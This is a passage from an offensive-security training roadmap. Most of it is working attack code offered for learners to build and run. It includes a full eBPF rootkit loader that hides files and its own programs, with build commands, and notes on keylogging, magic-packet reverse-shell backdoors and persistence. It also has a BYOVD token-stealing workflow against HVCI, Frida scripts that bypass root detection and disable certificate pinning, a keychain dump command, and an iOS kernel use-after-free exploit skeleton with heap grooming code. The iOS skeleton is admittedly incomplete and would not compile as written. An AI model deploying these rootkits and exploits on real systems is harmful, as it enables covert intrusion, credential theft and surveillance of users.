                        ctypes.byref(attr), ctypes.sizeof(attr))
    if ret < 0:
        return None   # ENOENT = no more programs
    return attr.next_id

def list_visible_prog_ids(hidden_ids):
    """List all program IDs, skipping hidden_ids."""
    visible = []
    cur_id  = 0
    while True:
        nxt = bpf_prog_get_next_id(cur_id)
        if nxt is None:
            break
        if nxt not in hidden_ids:
            visible.append(nxt)
        cur_id = nxt
    return visible

if __name__ == "__main__":
    print("[*] Listing visible BPF programs (hidden IDs filtered):")
    ids = list_visible_prog_ids(HIDDEN_IDS)
    for prog_id in ids:
        print(f"  prog ID: {prog_id}")
    if not ids:
        print("  (none -- rootkit is fully hidden from this enumerator)")
```

```c
// File: loader_full.c -- Userspace loader for file-hide + self-hide rootkits
// Compile: gcc -o loader_full loader_full.c -lbpf
// Run:     sudo ./loader_full secret.txt

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <bpf/libbpf.h>
#include <bpf/bpf.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
    if (argc < 2) {
        fprintf(stderr, "Usage: %s <filename_to_hide>\n", argv[0]);
        return 1;
    }
    const char *target = argv[1];

    // ---- Load file-hide rootkit -----------------------------------------------
    struct bpf_object *obj_fh = bpf_object__open("rootkit.bpf.o");
    bpf_object__load(obj_fh);

    struct bpf_program *prog_enter = bpf_object__find_program_by_name(obj_fh, "hook_enter_getdents64");
    struct bpf_program *prog_exit  = bpf_object__find_program_by_name(obj_fh, "hook_exit_getdents64");
    struct bpf_link *link_e = bpf_program__attach(prog_enter);
    struct bpf_link *link_x = bpf_program__attach(prog_exit);

    // Add target file to hidden_files map:
    int map_fh_fd = bpf_object__find_map_fd_by_name(obj_fh, "hidden_files");
    char key[64] = {};
    __u8  val    = 1;
    strncpy(key, target, 63);
    bpf_map_update_elem(map_fh_fd, key, &val, BPF_ANY);

    // ---- Load self-hide rootkit -----------------------------------------------
    struct bpf_object *obj_sh = bpf_object__open("rootkit_selfhide.bpf.o");
    bpf_object__load(obj_sh);

    struct bpf_program *prog_bpf_enter = bpf_object__find_program_by_name(obj_sh, "hook_bpf_enter");
    struct bpf_program *prog_bpf_exit  = bpf_object__find_program_by_name(obj_sh, "hook_bpf_exit");
    struct bpf_link *link_be = bpf_program__attach(prog_bpf_enter);
    struct bpf_link *link_bx = bpf_program__attach(prog_bpf_exit);

    // Get IDs of our own programs and add to hidden_prog_ids:
    int map_sh_fd = bpf_object__find_map_fd_by_name(obj_sh, "hidden_prog_ids");

    struct bpf_program *progs[] = {
        prog_enter, prog_exit, prog_bpf_enter, prog_bpf_exit, NULL
    };

    __u8 hide_val = 1;
    for (int i = 0; progs[i] != NULL; i++) {
        int prog_fd  = bpf_program__fd(progs[i]);
        struct bpf_prog_info info = {};
        __u32 info_len = sizeof(info);
        bpf_obj_get_info_by_fd(prog_fd, &info, &info_len);
        __u32 prog_id = info.id;
        printf("[+] Hiding prog ID: %u (%s)\n", prog_id,
               bpf_program__name(progs[i]));
        bpf_map_update_elem(map_sh_fd, &prog_id, &hide_val, BPF_ANY);
    }

    printf("[+] File '%s' hidden from ls\n", target);
    printf("[+] All rootkit programs hidden from bpftool prog list\n");
    printf("[*] Rootkit active. Press Ctrl+C to detach.\n");

    while (1) sleep(60);

    // Cleanup on signal:
    bpf_link__destroy(link_e);  bpf_link__destroy(link_x);
    bpf_link__destroy(link_be); bpf_link__destroy(link_bx);
    bpf_object__close(obj_fh);  bpf_object__close(obj_sh);
    return 0;
}
```

```bash
# Build both rootkit components:
sudo apt install clang libbpf-dev bpftool

clang -O2 -target bpf -c rootkit.bpf.c -o rootkit.bpf.o
clang -O2 -target bpf -c rootkit_selfhide.bpf.c -o rootkit_selfhide.bpf.o
gcc -o loader_full loader_full.c -lbpf

# Test:
echo "secret data" > secret.txt

# Before loading:
sudo bpftool prog list   # shows existing programs only

# Load rootkit:
sudo ./loader_full secret.txt &

# Verify file hiding:
ls                       # secret.txt is GONE
cat secret.txt           # still readable

# Verify self-hiding:
sudo bpftool prog list   # our programs do NOT appear

# Verify they ARE running (via /sys/fs/bpf if pinned, or via dmesg):
sudo cat /proc/self/fdinfo/*  # raw kernel interface bypasses our hook
```

### eBPF Rootkit Capabilities

```
Beyond file hiding:

PROCESS HIDING:
  Hook getdents64 on /proc -> remove /proc/<PID> from directory listing
  Same pattern as file hiding, filter by pid directory names.

NETWORK BACKDOOR (XDP):
  XDP hooks at NIC driver level -- BEFORE kernel network stack.
  Completely invisible to tcpdump (runs above XDP).
  Use: receive magic packet -> trigger reverse shell or privilege escalation.

KEYLOGGING:
  Hook read() on /dev/tty, /dev/pts/* (terminal devices).
  Every keystroke passes through read() -> capture at hook point.

PERSISTENCE:
  Pin BPF programs to /sys/fs/bpf/:
    bpf_link__pin(link, "/sys/fs/bpf/my_rootkit");
  Program survives process exit.
  Boot persistence: systemd service that runs loader at boot.
```

---

## BLOCK 13: HVCI, VBS AND KERNEL SECURITY 2026-2027

### Architecture Overview

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---


### What HVCI Kills vs What Survives

```
KILLED by HVCI:
  - Unsigned kernel-mode code injection (shellcode in pool/stack: BLOCKED)
  - Classic rootkits loading unsigned .sys drivers: BLOCKED
  - Kernel shellcode execution even with ring-0 write primitive: BLOCKED
  - Code patching of kernel .text section: BLOCKED

SURVIVES HVCI:
  - BYOVD with HVCI-compatible signed drivers (no code injection, data R/W only)
  - Data-only attacks: corrupt EPROCESS.Token, credential structures
  - Hypervisor rootkit (Ring -1): own the hypervisor ABOVE VTL1
  - Firmware attacks: UEFI rootkit runs BEFORE Hyper-V loads
  - Signed but vulnerable drivers with arbitrary R/W IOCTLs (loldrivers.io)

THE ATTACK HIERARCHY (2026-2027):
  Ring 3 (user)    -> Ring 0 (kernel, requires vulnerability)
  Ring 0           -> Ring -1 (hypervisor, requires UEFI/boot vulnerability)
  Ring -1          -> full control, HVCI irrelevant
  UEFI             -> persists across OS reinstall

BYOVD WORKFLOW AGAINST HVCI:
  1. Load signed, HVCI-compatible driver with arbitrary read/write IOCTL
  2. Use read primitive: read EPROCESS of System process
  3. Extract System's Token value
  4. Use write primitive: write System's Token to current process's EPROCESS.Token
  5. All in DATA space -- no code execution in kernel, HVCI does not fire
  6. Process now has SYSTEM token -- spawn shell
```

---

## BLOCK 14: MOBILE SECURITY -- ANDROID AND iOS

**Time: 6-8 weeks | Difficulty: Very Hard**

### Android Security Resources

| Resource | Type | Duration | Cost | Notes |
|---|---|---|---|---|
| [OWASP MASTG Android](https://mas.owasp.org/MASTG/Android/) | Guide | 8 hrs | FREE | Comprehensive Android security assessment |
| [Frida Documentation](https://frida.re/docs/android/) | Docs | 3 hrs | FREE | Official Android Frida guide |
| [Android Security Internals (Elenkov)](https://nostarch.com/androidsecurity) | Book | 15 hrs | PAID | Deep dive into Android security architecture |
| [MobSF](https://github.com/MobSF/Mobile-Security-Framework-MobSF) | Tool | 2 hrs | FREE | Automated mobile app analysis |

### Android Dynamic Analysis

```bash
# Setup: rooted Android device or emulator
# Install frida-server on device:
adb push frida-server /data/local/tmp/
adb shell chmod +x /data/local/tmp/frida-server
adb shell /data/local/tmp/frida-server &

# List running apps:
frida-ps -U

# Attach to app:
frida -U -f com.target.app --no-pause -l hook_android.js
```

```javascript
// hook_android.js -- Android Java and native hooks

// Hook Java methods:
Java.perform(function() {
    var Activity = Java.use('android.app.Activity');
    Activity.onCreate.overload('android.os.Bundle').implementation = function(bundle) {
        console.log('[*] Activity.onCreate called');
        this.onCreate(bundle);
    };

    // Hook encryption to capture plaintext:
    var Cipher = Java.use('javax.crypto.Cipher');
    Cipher.doFinal.overload('[B').implementation = function(input) {
        console.log('[*] Cipher.doFinal input: ' + hexdump(input));
        var result = this.doFinal(input);
        console.log('[*] Cipher.doFinal output: ' + hexdump(result));
        return result;
    };

    // Bypass root detection:
    var RootBeer = Java.use('com.scottyab.rootbeer.RootBeer');
    RootBeer.isRooted.implementation = function() {
        console.log('[*] isRooted bypass: returning false');
        return false;
    };
});
```

### iOS Security Resources

| Resource | Type | Duration | Cost | Notes |
|---|---|---|---|---|
| [OWASP MASTG iOS](https://mas.owasp.org/MASTG/iOS/) | Guide | 8 hrs | FREE | Comprehensive iOS assessment |
| [Frida iOS](https://www.frida.re/docs/ios/) | Docs | 3 hrs | FREE | Official Frida iOS guide |
| [Project Zero iOS](https://googleprojectzero.blogspot.com/search/label/iOS) | Blog | ongoing | FREE | Read ALL. State of the art iOS security research. |
| [palera1n jailbreak](https://palera.in/) | Tool | 2 hrs | FREE | Modern iOS jailbreaks for device-side testing |
| [XNU kernel source](https://github.com/apple-oss-distributions/xnu) | Source | 20+ hrs | FREE | Read this to understand what you're exploiting. |

### iOS Application Layer

```bash
# Decrypt IPA from jailbroken device:
# frida-ios-dump: https://github.com/AloneMonkey/frida-ios-dump
python3 dump.py -H 127.0.0.1 -p 2222 com.target.app

# Inspect binary:
otool -l Payload/AppName.app/AppName | grep -A 4 LC_ENCRYPTION_INFO_64
# cryptid = 0: not encrypted, analyze directly

# Security features:
otool -hv AppName | grep -E "PIE|STACK_CANARIES"
codesign -d --entitlements - AppName

# Decompile:
# Ghidra or IDA Pro: open binary -> ARM64 decompilation
class-dump AppName -H --output headers/

# Dynamic analysis (jailbroken device):
frida -U -f com.target.app --no-pause -l hook_ios.js
```

```javascript
// hook_ios.js -- iOS Objective-C and Swift hooks

// Log all HTTP requests:
var session = ObjC.classes.NSURLSession;
Interceptor.attach(
    session['- dataTaskWithRequest:completionHandler:'].implementation,
    {
        onEnter: function(args) {
            var request = ObjC.Object(args[2]);
            console.log('[*] URL: ' + request.URL().absoluteString());
        }
    }
);

// Disable certificate pinning:
var SecTrustEvaluateWithError = Module.findExportByName('Security',
    'SecTrustEvaluateWithError');
Interceptor.attach(SecTrustEvaluateWithError, {
    onLeave: function(retval) { retval.replace(1); }
});
```

```bash
# SSL Pinning Bypass:
objection -g com.target.app explore
# ios sslpinning disable

# Keychain Dump:
keychain-dumper -a
```

### iOS Kernel Exploitation Methodology

<div align="center">
<table><tr><td>



</td></tr></table>
</div>


### iOS CVE Walkthrough -- IOKit UAF Exploitation (GAP CLOSED)

This section synthesizes the attack pattern from CVE-2021-30955 (iOS 15 sandbox escape, disclosed by Google Project Zero) into a studied walkthrough. The CVE is fully patched. This is for educational analysis of the technique.

```
CVE-2021-30955: IOKit User Client Race Condition
Affected: iOS 14.x, fixed in iOS 15.2
Reporter: Saar Amar (MSRC)
Type: Use-After-Free in IOKit user client

ROOT CAUSE:
  An IOKit driver's external method allowed a race condition between two threads:
  Thread A: allocates a kernel object via ExternalMethod selector N
  Thread B: frees that object via ExternalMethod selector M
  If Thread B wins the race, Thread A continues using the freed object (UAF).

EXPLOITATION CHAIN (high level):

1. SETUP: Open the vulnerable IOKit service:
   io_connect_t conn;
   IOServiceOpen(service, mach_task_self(), 0, &conn);

2. SPRAY (before triggering bug):
   Allocate 4096 Mach ports (ipc_port_t, 168 bytes = 0xA8 each).
   These will reclaim the freed zone slot.
   for (int i = 0; i < 4096; i++)
       mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &ports[i]);

3. TRIGGER RACE:
   Thread A: IOConnectCallMethod(conn, SELECTOR_ALLOC, ...) -- allocates object
   Thread B: IOConnectCallMethod(conn, SELECTOR_FREE, ...)  -- frees object
   Synchronization: use a semaphore to time Thread B between A's alloc and first use.
   With enough retries (~1000), Thread B wins the race reliably.

4. TYPE CONFUSION:
   The freed object (zone slot) is now occupied by one of our ipc_port_t sprays.
   When the driver later dereferences the stale pointer, it reads ipc_port_t fields
   as if they were the original driver struct fields.
   ipc_port_t contains: ip_receiver (a task pointer at a known offset).

5. LEAK:
   The driver's stale dereference exposes ip_receiver (a kernel task pointer).
   Read this pointer from the return value of the triggering ExternalMethod call.
   Use the leaked task pointer to calculate: kernel_slide = leaked_task - known_offset.

6. FAKE OBJECT:
   With kernel_slide known: compute address of kernel symbols.
   Use a write primitive (another IOCTL or the UAF write path) to place
   a fake ipc_port_t at a controlled location.
   Set ip_receiver to point to a fake task struct we control.
   The fake task's bsd_info field points to a fake proc struct.
   The fake proc's p_ucred field points to our crafted credentials (uid=0).

7. PRIVILEGE ESCALATION:
   Trigger a MIG call that traverses: port -> task -> bsd_info -> proc -> ucred.
   The kernel reads our forged ucred (uid=0) and uses it for capability checks.
   We are now root within the sandbox.

8. SANDBOX ESCAPE (requires separate bug or entitlement bypass):
   Root within the sandbox still cannot access /etc/shadow, /data, etc.
   A separate TCC bypass or SIP bypass is needed for full sandbox escape.
   CVE-2021-30955 provided root; sandbox escape was chained separately.
```

```c
// File: ios_uaf_skeleton.c
// Annotated exploitation skeleton based on CVE-2021-30955 pattern.
// This is EDUCATIONAL SYNTHESIS from public disclosure, not a working exploit.
// Requires: specific vulnerable iOS version + driver + offsets for your build.

#include <stdio.h>
#include <stdlib.h>
#include <mach/mach.h>
#include <IOKit/IOKitLib.h>
#include <pthread.h>
#include <semaphore.h>

// Step 1: Find and open the vulnerable IOKit service
io_service_t service = IOServiceGetMatchingService(kIOMainPortDefault,
    IOServiceMatching("VulnerableIOKitDriver"));

if (service == IO_OBJECT_NULL) {
    puts("[-] Service not found");
    return 1;
}

io_connect_t conn;
kern_return_t kr = IOServiceOpen(service, mach_task_self(), 0, &conn);
if (kr != KERN_SUCCESS) {
    printf("[-] IOServiceOpen failed: 0x%x\n", kr);
    return 1;
}

// Step 2: Spray Mach ports to reclaim freed zone slot
// ipc_port_t size on arm64 = 0xA8 bytes = 168 bytes
// If the vulnerable object is also 0xA8 bytes, they share a zone.
#define SPRAY_COUNT 4096
mach_port_t ports[SPRAY_COUNT];

for (int i = 0; i < SPRAY_COUNT; i++) {
    mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &ports[i]);
    // Each allocation gives us an ipc_port_t in the kernel's zone allocator.
    // With 4096 ports, we dominate the zone for that size class.
}
printf("[+] Sprayed %d Mach ports (ipc_port_t objects)\n", SPRAY_COUNT);

// Step 3: Trigger the race condition
// Thread A allocates the object, Thread B frees it.
// We use a semaphore to time Thread B during Thread A's alloc-to-use window.
sem_t race_sem;
sem_init(&race_sem, 0, 0);

// (In a real exploit: launch Thread B, have it wait on sem, Thread A signals it
//  between IOCTL_ALLOC and IOCTL_USE, Thread B calls IOCTL_FREE)
// For a complete implementation: see Ian Beer's Project Zero PoCs on GitHub.

// Step 4: After UAF -- read the confused ipc_port_t via the driver's stale ptr
// The driver attempts to read field X from the "original" struct.
// Field X overlaps with ipc_port_t.ip_receiver (kernel task pointer).
// This gives us a kernel pointer leak.

uint64_t leaked_ptr = 0;
// kr = IOConnectCallMethod(conn, SELECTOR_READ_STALE, ..., &leaked_ptr, ...);
// printf("[+] Leaked kernel pointer: 0x%llx\n", leaked_ptr);

// Step 5: Calculate kernel slide from leaked pointer
// kernel_slide = leaked_ptr - known_symbol_static_offset;
// With slide known: all kernel symbols computable.

printf("[*] For a complete CVE-specific walkthrough:\n");
printf("    Read: https://googleprojectzero.blogspot.com/search/label/iOS\n");
printf("    Specifically: Ian Beer's 'A look at iMessage in iOS 14'\n");
printf("    and the FORCEDENTRY analysis for data-only chain context.\n");

IOServiceClose(conn);
return 0;
```

### iOS Grooming Primitives Reference

```c
// GROOMING PRIMITIVES FOR iOS (equivalent to msg_msg on Linux):

// 1. IOSurface (best -- controllable size, available without entitlements):
IOSurfaceRef surf = IOSurfaceCreate((__bridge CFDictionaryRef)@{
    @"IOSurfaceWidth":  @1,
    @"IOSurfaceHeight": @1,
    @"IOSurfaceBytesPerElement": @4,
    @"IOSurfacePixelFormat": @(kCVPixelFormatType_32BGRA),
    // Key: set IOSurfaceAllocSize to control exact allocation size:
    @"IOSurfaceAllocSize": @(168)   // target size: must match vulnerable object
});

// 2. Mach port spray (ipc_port_t = 168 bytes on arm64):
mach_port_t port;
for (int i = 0; i < 4096; i++)
    mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &port);

// 3. Pipe buffers (pipe_buffer structs: multiple size classes):
int pipefd[2];
pipe(pipefd);
// First write allocates pipe_buffer in kernel: size = next power of 2 >= write_size
write(pipefd[1], spray_data, target_size);

// 4. VM map entries (vm_map_entry_t, size varies):
void *addr;
vm_allocate(mach_task_self(), (vm_address_t*)&addr, target_size, VM_FLAGS_ANYWHERE);
```

---

## CTF PROGRESSION AND LAB RESOURCES

### CTF Platforms for Phase 3

| Platform | Focus | Cost | Notes |
|---|---|---|---|
| [pwn.college](https://pwn.college) | Binary exploitation, kernel | FREE | Best structured course. Mandatory. |
| [HackTheBox](https://hackthebox.com) | Full spectrum | ~$14/month | Good variety of binary and kernel challenges |
| [pwnable.kr](https://pwnable.kr) | Binary exploitation | FREE | Korean CTF, excellent |
| [ropemporium](https://ropemporium.com) | ROP chains | FREE | Do all 8 challenges |
| [how2heap](https://github.com/shellphish/how2heap) | Heap exploitation | FREE | Working examples of every technique |
| [HEVD](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) | Windows kernel | FREE | THE Windows kernel training target |
| [VulnHub](https://www.vulnhub.com) | Download + local | FREE | Free, offline |

### Phase 2 to Phase 3 Bridge

**Do this before starting Phase 3:**

Read these chapters from Hacking: The Art of Exploitation (Erickson):
- Chapter 2: Programming (C fundamentals, pointers, memory)
- Chapter 3: Exploitation (stack overflow mechanics)

This is mandatory. Do not skip it. These chapters are why Phase 3 makes sense.

**Understand these concepts before Day 1 of Phase 3:**
- What a stack frame is and why it exists
- What saved RBP and saved RIP are, and where they live
- What a calling convention means and which registers are used
- How malloc and free work at a basic level
- What a system call is and how arguments are passed

> The gap between Phase 2 and Phase 3 is where most people quit. They encounter binary exploitation without the stack foundation and stop. The bridge above prevents that.

---

## FINAL NOTES -- THE 0.0001% STANDARD

Phase 3 is not a checklist. It is a foundation. Every technique here -- ROP chains, heap grooming, kernel exploitation, eBPF rootkits, PAC bypass -- exists as a building block for Phase 4 where you write the tools, find the 0-days, and build the implants.

The milestones require written analysis, not just working shells, for one reason: a shell you got without understanding is a shell you cannot reproduce, adapt, or defend against. The understanding is the deliverable.

Every technique in this document was discovered by someone who did not stop. That is the whole architecture.

---
